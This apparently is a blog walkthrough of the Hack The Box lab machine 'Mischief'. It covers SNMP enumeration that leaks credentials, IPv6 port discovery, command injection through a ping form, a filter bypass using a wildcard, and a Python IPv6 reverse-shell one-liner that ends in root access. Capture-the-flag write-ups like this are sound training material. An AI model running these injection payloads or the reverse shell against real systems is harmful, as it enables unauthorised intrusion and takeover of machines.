

jebidiah-anthony
write-ups and what not
HTB Mischief (10.10.10.92) MACHINE WRITE-UP
TABLE OF CONTENTS
- PART 1 : INITIAL RECON
- PART 2 : PORT ENUMERATION
- PART 3 : EXPLOITATION
- PART 4 : GENERATE USER SHELL
- PART 5.1 : PRIVILEGE ESCALATION (loki -> root)
- PART 5.2 : PRIVILEGE ESCALATION (www-data -> root)
PART 1 : INITIAL RECON
$ nmap --min-rate 1000 -p- -sT -sU -v 10.10.10.92
22/tcp open ssh
3366/tcp open creativepartnr
161/udp open snmp
$ nmap -oN mischief -p 22,161,3366 -sC -sT -sU -sV -v 10.10.10.92
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 2a:90:a6:b1:e6:33:85:07:15:b2:ee:a7:b9:46:77:52 (RSA)
| 256 d0:d7:00:7c:3b:b0:a6:32:b2:29:17:8d:69:a6:84:3f (ECDSA)
|_ 256 3f:1c:77:93:5c:c0:6c:ea:26:f4:bb:6c:59:e9:7c:b0 (ED25519)
3366/tcp open caldav Radicale calendar and contacts server (Python BaseHTTPServer)
| http-auth:
| HTTP/1.0 401 Unauthorizedx0D
|_ Basic realm=Test
| http-methods:
|_ Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/2.7.15rc1
|_http-title: Site doesn't have a title (text/html).
161/udp open snmp SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-info:
| enterprise: net-snmp
| engineIDFormat: unknown
| engineIDData: b6a9f84e18fef95a00000000
| snmpEngineBoots: 19
|_ snmpEngineTime: 59m39s
| snmp-interfaces:
| lo
| IP address: 127.0.0.1 Netmask: 255.0.0.0
| Type: softwareLoopback Speed: 10 Mbps
| Status: up
| Traffic stats: 0.67 Kb sent, 0.67 Kb received
| Intel Corporation 82545EM Gigabit Ethernet Controller (Copper)
| IP address: 10.10.10.92 Netmask: 255.255.255.0
| MAC address: 00:50:56:b9:2c:07 (VMware)
| Type: ethernetCsmacd Speed: 1 Gbps
| Status: up
|_ Traffic stats: 618.08 Kb sent, 23.39 Mb received
| snmp-netstat:
| TCP 0.0.0.0:22 0.0.0.0:0
| TCP 0.0.0.0:3366 0.0.0.0:0
| TCP 10.10.10.92:22 10.10.14.213:32850
| TCP 10.10.10.92:22 10.10.14.213:32864
| TCP 10.10.10.92:22 10.10.15.54:40920
| TCP 10.10.10.92:22 10.10.16.63:40704
| TCP 10.10.10.92:3366 10.10.14.213:47812
| TCP 10.10.10.92:3366 10.10.14.213:47814
| TCP 10.10.10.92:3366 10.10.14.213:47816
| TCP 10.10.10.92:3366 10.10.14.213:47818
| TCP 10.10.10.92:3366 10.10.14.213:47820
| TCP 127.0.0.1:3306 0.0.0.0:0
| TCP 127.0.0.53:53 0.0.0.0:0
| UDP 0.0.0.0:161 *:*
| UDP 0.0.0.0:34424 *:*
|_ UDP 127.0.0.53:53 *:*
| snmp-sysdescr: Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
|_ System uptime: 59m39.09s (357909 timeticks)
|_snmp-win32-software:
Service Info: Host: Mischief; OS: Linux; CPE: cpe:/o:linux:linux_kernel
NOTE(S):
- An SNMP service is running at UDP PORT 161.
- The web service running on TCP PORT 3366 is served using a Python BaseHTTPServer.
PART 2 : PORT ENUMERATION
UDP PORT 161 (snmp)
snmpwalk:$ snmpwalk -c public 10.10.10.92 -v 2c iso.3.6.1.2.1.1.1.0 = STRING: "Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64" iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10 iso.3.6.1.2.1.1.3.0 = Timeticks: (4642890) 12:53:48.90 iso.3.6.1.2.1.1.4.0 = STRING: "Me " iso.3.6.1.2.1.1.5.0 = STRING: "Mischief" iso.3.6.1.2.1.1.6.0 = STRING: "Sitting on the Dock of the Bay" ...omitted...NOTE(S):
- Processes (
hrSWRunEntry):iso.3.6.1.2.1.25.4.2.1.4.608 = STRING: "python" ...omitted... iso.3.6.1.2.1.25.4.2.1.5.608 = STRING: "-m SimpleHTTPAuthServer 3366 loki:godofmischiefisloki --dir /home/loki/hosted/" ...omitted...- The process for the hosted webservice is found.
- HTTP Authentication credentials are found -
loki : godofmischiefisloki - The web service is hosted from
/home/loki/hosted
- IPv6 Addresses (
ipAddressIfIndex):$ snmpwalk -c public -v 2c 10.10.10.92 iso.3.6.1.2.1.4.34.1.3.2.16 iso.3.6.1.2.1.4.34.1.3.2.16.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.1 = INTEGER: 1 iso.3.6.1.2.1.4.34.1.3.2.16.222.173.190.239.0.0.0.0.2.80.86.255.254.185.245.54 = INTEGER: 2 iso.3.6.1.2.1.4.34.1.3.2.16.254.128.0.0.0.0.0.0.2.80.86.255.254.185.245.54 = INTEGER: 2- The 1st one is the Loopback Address.
- The 2ns one is the Unique-Local Address.
- The 3rd one is the Link Local Address.
- Evaluate the
IPv6address of the system:unique_local_oid=$(snmpwalk -c public -v 2c 10.10.10.92 iso.3.6.1.2.1.4.34.1.3.2.16.222 | sed -ne 's/^.*\(222.*\) =.*$/\1/p') unique_local_dec=$(echo $unique_local_oid | tr '.' ' ') unique_local_hex=$(printf '%02x' $unique_local_dec) ipv6=$(echo -n $unique_local_hex | fold -w4 | tr '\n' ':')$ echo $ipv6 dead:beef:0000:0000:0250:56ff:fea4:29f2 - See if there are other ports open for IPv6:
$ nmap -6 --min-rate 1000 -p- -v dead:beef:0000:0000:0250:56ff:fea4:29f2 22/tcp open ssh 80/tcp open http $ nmap -6 -p22,80 -sC -sV -v $ipv6 22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 2048 2a:90:a6:b1:e6:33:85:07:15:b2:ee:a7:b9:46:77:52 (RSA) | 256 d0:d7:00:7c:3b:b0:a6:32:b2:29:17:8d:69:a6:84:3f (ECDSA) |_ 256 3f:1c:77:93:5c:c0:6c:ea:26:f4:bb:6c:59:e9:7c:b0 (ED25519) 80/tcp open http Apache httpd 2.4.29 ((Ubuntu)) |_http-server-header: Apache/2.4.29 (Ubuntu) |_http-title: 400 Bad Request Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel- There is another http service open using IPv6.
- Processes (
TCP PORT 3366 (http, IPv4)
-
http://10.10.10.136:
NOTE(S):
- The credentials were found during the SNMP enumeration.
-
Logging in using
loki : godofmischiefisloki:NOTE(S):
-
Two sets of credentials are found:
Username Password loki godofmischiefisloki loki trickeryanddeceit
-
TCP PORT 80 (http, IPv6)
-
http://[dead:beef:0000:0000:0250:56ff:fea4:29f2]/ -
Attempt Logging in using the credentials found on PORT 3366
NOTE(S):
- The credential pair,
administrator : trickeryanddeceit, worked. - So far, only the
pingcommand could be executed. In my home directory, i have my password in a file called credentials, Mr Admin
- The credential pair,
PART 3 : EXPLOITATION
- Bypass the command execution in the service running on port 80:
$ ping -c 2 127.0.0.1; id PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.020 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.061 ms --- 127.0.0.1 ping statistics --- 2 packets transmitted, 2 received, 0% packet loss, time 1028ms rtt min/avg/max/mdev = 0.020/0.040/0.061/0.021 ms Command was executed succesfully! $ id; ping -c 2 127.0.0.1 uid=33(www-data) gid=33(www-data) groups=33(www-data) Command was executed succesfully!NOTE(S):
- The command execution could be bypassed by using a
;. - The first command is the only one being executed
- The command execution could be bypassed by using a
PART 4 : GENERATE USER SHELL
- Take the file called
credentialsfrom thehome directory:$ echo /home/*; ping -c 2 127.0.0.1 /home/loki Command was executed succesfully! $ echo /home/loki/*; ping -c 2 127.0.0.1 /home/loki/credentials /home/loki/hosted /home/loki/user.txt Command was executed succesfully! $ cat /home/loki/credentials; ping -c 2 127.0.0.1 Command is not allowed. $ cat /home/loki/cred*; ping -c 2 127.0.0.1 pass: lokiisthebestnorsegod Command was executed succesfully!NOTE(S):
- The word
credentialsis being filtered out by the service. - It was bypassed by using a wildcard.
- The word
- Login via
ssh:$ ssh -l loki 10.10.10.92 The authenticity of host '10.10.10.92 (10.10.10.92)' can't be established. ECDSA key fingerprint is SHA256:deaxXTK7ORthfGcKdblPRUmgNrU20oclqMbwVj3hzYI. Are you sure you want to continue connecting (yes/no/[fingerprint])? yes Warning: Permanently added '10.10.10.92' (ECDSA) to the list of known hosts. $ loki@10.10.10.92's password: lokiisthebestnorsegod $ cat user.txt bf58........................0060
PART 5.1 : PRIVILEGE ESCALATION (loki -> root)
- Check for interesting files in
loki’s home directory:$ ls -lah ~ -rw------- 1 loki loki 192 Jul 14 2018 .bash_history ...omitted... -rw-rw-r-- 1 loki loki 28 May 17 2018 credentials ...omitted... -rw-r--r-- 1 loki loki 0 May 14 2018 .sudo_as_admin_successful -r-------- 1 loki loki 33 May 17 2018 user.txt ...omitted... $ cat .bash_history python -m SimpleHTTPAuthServer loki:lokipasswordmischieftrickery ...omitted... sudo su su exit su root ...omitted... exitNOTE(S):
- There was an attempt to execute
su rootin the.bash_history. - There is a
.sudo_as_admin_successfulwhich might mean the attempt was successful. - A previously unknown credential pair was used to initialize the python
simpleHTTPAuthServer.- This might be a lead for the root password.
- There was an attempt to execute
- Attempt to execute
su root:$ su root -bash: /bin/su: Permission denied - Check privileges for the
sucommand:$ getfacl -R -s / 2>/dev/null | grep -A 9 su # file: usr/bin/sudo # owner: root # group: root # flags: s-- user::rwx user:loki:r-- group::r-x mask::r-x other::r-x # file: bin/su # owner: root # group: root # flags: s-- user::rwx user:loki:r-- group::r-x mask::r-x other::r-xNOTE(S):
- The user,
loki, only has read (r--) permissions for bothsuandsudo - Good thing we still have access to another user –
www-data
- The user,
PART 5.2 : PRIVILEGE ESCALATION (www-data -> root)
- Set-up a listener for IPv6:
$ socat TCP6-LISTEN:4444 stdout - Execute an IPv6 reverse shell on the web service running on port 80:
$ python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::100e",4444,0,0));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'; ping -c 2 127.0.0.1 - While inside the reverse shell:
$ id uid=33(www-data) gid=33(www-data) groups=33(www-data) $ su $ Password: lokipasswordmischieftrickery $ id uid=0(root) gid=0(root) groups=0(root) $ cat /root/root.txt The flag is not here, get a shell to find it! $ find / -name root.txt -type f -uid 0 /usr/lib/gcc/x86_64-linux-gnu/7/root.txt /root/root.txt $ cat /usr/lib/gcc/x86_64-linux-gnu/7/root.txt ae15........................7807